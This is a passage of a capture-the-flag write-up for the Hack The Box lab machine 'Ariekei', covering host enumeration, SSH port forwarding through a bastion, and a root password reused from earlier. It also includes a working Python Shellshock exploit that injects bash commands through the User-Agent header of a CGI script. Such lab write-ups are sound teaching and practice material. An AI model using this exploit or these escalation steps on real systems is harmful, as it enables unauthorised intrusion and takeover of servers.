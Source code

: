 |Hostname|IP|Ports Open|
|--|--|--|--|
|waf-live.arieka-live-net|172.23.0.252|`443/tcp`|
|bastion-live.arieka-live-net|172.23.0.253|`22/tcp`|
|calvin.ariekei.htb|172.23.0.11|`8080/tcp`|
|blog-test.arieka-test-net|172.24.0.2|`80/tcp`|
|waf-live.arieka-test-net|172.24.0.252|`443/tcp`|
|ezra.ariekei.htb|172.24.0.253|`22/tcp`|

We could now try to do `shellshock` on the `http://172.24.0.2`.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/ariekei]
└──╼ # ssh -i bastion.pem -L 80:172.24.0.2:80 root@10.10.10.65 -p 1022
Last login: Wed Jul 21 17:04:27 2021 from 10.10.14.23
root@ezra:~#
```

From on our box we could abuse the `shellshock`.
```python
import requests
url = "http://127.0.0.1/cgi-bin/stats"
input = input("172.24.0.2> ")
payload = "() { :; }; echo; echo; /bin/bash -c \'" + input + "\'"
headers = {"User-Agent" : payload}
r = requests.get(url,headers=headers,verify=False)
print(r.text)
```

![[Pasted image 20210721235816.png]]

# User Escalation to www-data on beehive
We could now get a reverse shell from here to `beehive`.
![[Pasted image 20210722000139.png]]

# Root Escalation to Root on beehive
We use the credentials `Ib3!kTEvYw6*P7s` found earlier to elevate to `root`.
![[Pasted image 20210722002252.png]]

## Getting the user Flag
```python
root@beehive:/home/spanishdancer# ls -l
total 8
drwxrwxr-x 3 1000 root 4096 Sep 16  2017 content
-r--r----- 1 1000 root   33 Sep 24  2017 user.txt
root@beehive:/home/spanishdancer# cat user.txt 
ff0bca827a5f660f6d35df7481e5f216
```
